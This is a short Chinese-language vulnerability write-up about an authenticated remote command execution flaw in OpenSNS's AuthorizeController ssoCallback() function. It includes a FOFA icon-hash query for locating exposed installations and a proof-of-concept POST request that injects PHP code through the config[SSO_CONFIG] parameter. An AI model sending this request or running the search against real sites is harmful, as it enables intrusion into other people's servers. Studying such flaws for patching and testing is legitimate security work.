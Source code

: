 # OpenSNS AuthorizeController.class.php 后台远程命令执行漏洞

## 漏洞描述

OpenSNS AuthorizeController.class.php文件 ssoCallback() 函数存在命令执行漏洞，在登录的情况下可以获取服务器权限

## 漏洞影响

```
OpenSNS
```

## FOFA

```
icon_hash="1167011145"
```

## 漏洞复现

登录页面如下

![image-20220518154117028](./images/202205181541097.png)

存在漏洞的文件为 `Application/Admin/Controller/AuthorizeController.class.php`

![image-20220518154127216](./images/202205181541309.png)

其中 config参数可控，构造请求就可以通过 file_put_contents 写入执行任意命令

![image-20220518154143157](./images/202205181541252.png)

构造请求包

```
POST /admin.php?s=/Authorize/ssoCallback\

config[SSO_CONFIG]=phpinfo();
```

![image-20220518154206103](./images/202205181542195.png)